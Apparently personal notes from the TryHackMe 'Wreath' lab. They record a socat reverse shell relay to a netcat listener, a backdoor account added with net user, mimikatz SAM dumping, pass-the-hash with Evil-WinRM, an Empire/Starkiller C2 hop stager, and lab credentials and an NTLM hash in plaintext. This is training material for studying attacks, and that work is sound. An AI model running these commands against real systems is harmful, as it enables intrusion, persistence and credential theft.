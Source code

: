 
```php
/home/kali/Documents/tryhackme-notes/wreath/loot
```

ssh first target
```php
ssh -i id_rsa root@10.200.57.200
```

setup shhuttle for pivot
```php
sudo sshuttle -r root@10.200.57.200 --ssh-cmd "ssh -i id_rsa" -N -x 10.200.57.200
```

check firewall
```php
firewall-cmd --zone=public --add-port 22888/tcp
```

**_Socat can be skipped if user account is already made_**

**On the Webserver:**

**SOCAT Reverse Shell Relay**

In this scenario we are using **socat** to create a relay for us to send a reverse shell back to our own attacking machine. 
1. First let's start a standard netcat listener on our attacking box (`sudo nc -lvnp 443`). 
2. Next, on the compromised server, use the following command to start the relay:  
`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`

```php
sudo nc -lvnp 443
```

```php
./socat tcp-l:8000 tcp:10.50.55.235:443 &
```

_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._

### Webpage Location

```php
http://10.200.57.150/exploit-Platos.php
```

# Setting up a user/admin account

First we create the account itself:  
```php
net user USERNAME PASSWORD /add
``` 

**_Account:_**
Username:
Platos

Password:
PlatosTHM13!3


## Evil-WinRM

```php
evil-winrm -u Platos -p 'PlatosTHM13!3' -i 10.200.57.150
```

Upload/Download
```php
upload local_filename destination_filename
```

Try to make mimikatz work on CLI
```php
runas /user:Administrator "cmd.exe mimikatz.exe"
```

## xfreerdp
```php
xfreerdp /v:10.200.57.150 /u:Platos /p:'PlatosTHM13!3' /dynamic-resolution +clipboard
```

Now to dump the sam, but first:
- `privilege::debug`   
- `token::elevate`
- Finally ``lsadump::sam``

share resources
```php
xfreerdp /v:10.200.57.150 /u:Platos /p:'PlatosTHM13!3' /dynamic-resolution +clipboard /drive:/usr/share/windows-resources,share
```

---
### Account Details

**Username:**
Thomas

**Password:**
i<3ruby

---
### Easy connection to compromised server

```php
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.57.150
```

---

# C&C - Basic Setup

### Empire

```php
sudo powershell-empire server
```

### StarKiller

With Empire server running:

```php
starkiller
```

**Username:** `empireadmin`

**Password:** `password123`

**URL:** `https://localhost:1337`

---

**_The stager, firewall rule, and php listener, should all be using the same port!

1. I copy the stager to clipboard after crafting it in StarKiller (_refer to full notes for examples_), i then make a temp file stager-Platos.sh and run it on the web-server **prod-serv** 

2. After running our stager i get the Webserver Agent

![[Pasted image 20240722083033.png]]

3. At this stage i thought i had to delete the agent but you need it to forward the response.

![[Pasted image 20240722085006.png]]

4. I think this part is where i need to use the port i opened in the firewall rules.

_Update:_
-  in the `redirect listener section ` i add the listener i setup `Webserver (StarKiller)`

Create new stager
![[Pasted image 20240722085946.png]]

- The stager has given us the files located at `/tmp/http_hop`
- CD to that dir and zip the files
```php
zip -r hop.zip *
```

![[Pasted image 20240722091152.png]]

We now need to serve the files on the port we chose when generating the http_hop listener:
```php
php -S 0.0.0.0:22888 &>/dev/null &
```

Burpsuite modifications
```php
Content-Type: application/x-www-form-urlencoded
```

```php
POST /web/exploit-Platos.php
```

http://10.200.57.150/web/exploit-Platos.php

- Add the stager to the `a` request from StarKiller http-hop.
- After re-adding the firewall rule to the prod server i get the agent back.

---

**Very Exciting!**
I get the agent back and complete this part.
![[Pasted image 20240722100617.png]]

- I used the agents menu to search for sherlock and then ran it on our new agent the git-serv.
- Click on the tasks tab at the top and then you can click on a drop down arrow that reveals the results of the module or commands used.
- It has 2 modes: 1. Execute Module. 2. Shell Command. 
- Shell command is where you can use things like `whoami`

---

# Final Machine in the Network



